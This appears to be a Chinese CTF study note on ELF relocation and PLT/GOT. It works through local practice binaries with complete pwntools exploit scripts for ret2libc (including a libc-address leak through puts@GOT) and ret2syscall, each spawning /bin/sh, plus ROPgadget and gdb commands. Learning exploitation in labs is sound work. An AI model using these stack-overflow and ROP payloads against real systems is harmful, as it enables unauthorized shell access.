

所谓教材:就是把一个简单易懂的名词,扩写成一堆谁也看不懂的句子（假的
1.重定位
确定程序运行时地址的过程就是这里重定位(Relocation)。
2.链接时重定位
链接阶段是将一个或多个中间文件(.o文件)通过链接器将它们链接成一个可执行文件，主要做的事情有
对各个中间文件的同名section进行合并
对代码段，数据段等进行地址分配
进行链接时重定位两种情况：
1.如果是在其他中间文件中已经定义了的函数，链接阶段可以直接重定位到函数地址
2.如果是在动态库中定义了的函数，链接阶段无法直接重定位到函数地址，只能生成额外的小片段代码，也就是PLT表，然后重定位到该代码片段
3、运行时重定位
运行后加载动态库，把动态库中的相应函数地址填入GOT表，由于PLT表是跳转到GOT表的，这就构成了运行时重定位
4、PLT表和GOT表
动态编译其实就是在实际内存中一份，但是在各进程的虚拟地址中“虚拟”一份，这样可以大大节省空间，但是这样会导致重定位非常困难，一个解决方法是给一种动态库一个确定的虚拟内存区，但是这样肯定是不行的（如果动态库很多，内存爆了233，所以有这么一个位置无关代码（PIC），而PLT表和GOT表就是用来无论这个动态库丢内存哪个区域都能调用到。有一个原则是代码段（PLT表）原则上是不能修改的，只能改数据段（GOT表）
ELF将GOT拆为了两个表叫做“.got”,”.got.plt”。其中 .got 用来保存全局变量的引用地址，.got.plt 用来保存函数引用的地址

萌新问题1、不要GOT表可不可以
意思是plt表直接保存jmp *地址肯定是不行的，因为plt是代码段，我们尽量不让他修改
萌新问题2、不要PLT表可不可以
也是不行的，因为GOT表是数据段，不能实现函数跳转等操作
当然延迟绑定的实现具体细节还是很复杂但是很精妙的，感兴趣可以看看程序员自我修养。
ret2libc
ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置(即函数对应的 got表项的内容)。一般情况下，我们会选择执行 system(“/bin/sh”)，故而此时我们需要知道 system 函数的地址。
ROPgadget --binary ret2libc1 --string '/bin/sh'
payload的布局结构：
A*N + system_addr + fake_ret + system_argfake_ret是下一次调用的返回地址
#!/usr/bin/env python
from pwn import *
sh = process('./ret2libc1')
binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)
sh.interactive()ret2libc2
该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，但是有一个puts函数，我们写到bss段，然后执行
from pwn import *
sh = process('./ret2libc2')
system = 0x08048490
gets_addr=0x08048460
pop_ebx = 0x0804843d
buff2_addr=0x0804A080
#payload = flat(["a"*112,gets_addr,pop_ebx,buf2,system,"aaaa",buf2])
payload = flat(["a"*112,gets_addr,system,buff2_addr,buff2_addr])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()为甚么两个payload都可以呢
payload1:调用写函数之后，函数到了返回地址上，但是栈还多了上一次的参数buf2，所以我们找一个pop把栈平衡一下到达system函数调用，buf2重新作为参数，之后返回地址为“aaaa”,由于全程没动ebp，所以不需要管保留的ebp什么的
payload2:在 gets() 函数调用完后，在返回地址处覆盖上 system() 的地址将 gets() 函数的参数 buf 地址当成返回地址，再在后面加上 system() 函数的参数 buf。
ret2libc3
这题就要先泄露libc地址
思路
1.泄露 一个调用函数的 地址
2.获取 libc 版本
3.获取 system 地址与 /bin/sh 的地址
4.再次执行源程序
5.触发栈溢出执行 system(‘/bin/sh’)获取libc版本使用LibcSearcher
payload
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
sh=process("./ret2libc3")
ret2libc3=ELF("./ret2libc3")
print("main"+str(hex(ret2libc3.symbols['main'])))
payload='f'*112+p32(ret2libc3.plt['puts'])+p32(ret2libc3.symbols['main'])+p32(ret2libc3.got['puts'])
sh.recvuntil('?')
sh.sendline(payload)
puts=u32(sh.recv(4))
print('puts的地址'+hex(puts))
libc=LibcSearcher('puts',puts)
print("libc的版本："+str(libc))
libcbase=puts-libc.dump('puts')
print("libc基址:"+str(hex(libcbase)))
system=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')
print("system函数地址:"+str(hex(system)))
print("bin_sh地址:"+str(hex(bin_sh)))
payload='f'*104+p32(system)+p32(0xdeadbeef)+p32(bin_sh)
sh.sendline(payload)
sh.interactive()
#print(main)解释
我们先找到puts函数的plt表，这样可以直接调用puts函数输出我们要看的东西
puts参数为p32(ret2libc3.got['puts']),我们在每次运行的时候把got表中的puts(其实是一个指针)，输出，这样就把puts函数在这个进程的虚拟地址输出了，然后在一个动态库中相对偏移是不变的，找到system和'/bin/sh'虚拟地址。
我们在输出的时候把返回地址设置为main函数就可以再次运行栈溢出而且动态库在虚拟地址中位置不变（Orz太精妙了
动态调整栈的长度
之前静态计算栈溢出的偏移，太难了容易算错，然后曹师傅说动态调试就简单了
1、先略微调高一点
2、设置断点在ret上
3、运行，断点截住后查看栈多出了多少
比如本题的104，先设置为110
然后发现多了6个f字符，所以实际偏移为110-6=104
ret2syscall
ret2syscall，即控制程序执行系统调用，获取 shell。
简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell
其中，该程序是 32 位，所以我们需要使得
系统调用号，即 eax 应该为 0xb
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
第二个参数，即 ecx 应该为 0
第三个参数，即 edx 应该为 0寻找 gadgets的方法，我们可以使用 ropgadgets 这个工具
ROPgadget --binary rop --only 'pop|ret' | grep 'eax'
ROPgadget --binary rop --only 'pop|ret' | grep 'ebx'
ROPgadget --binary rop --string '/bin/sh'
ROPgadget --binary rop --only 'int'#!/usr/bin/env python
from pwn import *
sh = process('./rop')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()ps:几个DGB常用命令
-q 参数不显示欢迎信息等
-n 不加载任何插件，使用原生 gdb
info 后面跟上想要查看的信息，如函数信息 info functions
b/breakpoint 设置断点
del/delete breakpoints n 删除断点，n是断点编号，可用info breakpoints命令查看断点信息
start 命令启动程序并停在开辟完主函数栈帧的地方
c/continue 继续执行程序，遇到断点停下
f/finish 结束程序
r/run 运行程序，遇到断点停下
ni 单步步过，一步一步执行指令遇到函数调用时直接执行完整个函数
si 单步步入，一步一步执行指令遇到函数调用时跳转到函数内部
vmmap 查看内存映射
checksec 查看程序的防护措施
pdisass/disassemble 查看当前函数帧的反汇编代码，前一个命令有高亮显示只是需要安装pwndbg插件，后面一个命令时gdb自带的命令无高亮显示
p/print 打印信息，如寄存器 p $ebp
x/<n/f/u> <addr> 查看某地址处的值，n/f/u 参数为可选，n代表想要查看多少个内存单元即从当前地址开始计算，每个内存单元的大小由后面的u参数指定；f表示显示格式，如s表示字符串形式，i为指令形式；u指定内存单元大小，b(一个字节)、h(双字节)、w(四个字节)、g(八字节)默认为w； 后面跟上x代表以十六进制的形式查看变量
set *addr = value 设置某个地址的值ps:read函数
ssize_t read(int fd, void *buf, size_t count);函数的参数【int fd】：这个是文件指针
函数的参数【void *buf】：读上来的数据保存在缓冲区buf中，同时文件的当前读写位置向后移
函数的参数【size_t count】：是请求读取的字节数。若参数count 为0, 则read()不会有作用并返回0. 返回值为实际读取到的字节数, 如果返回0
read()会把参数fd 所指的文件传送count个字节到buf指针所指的内存中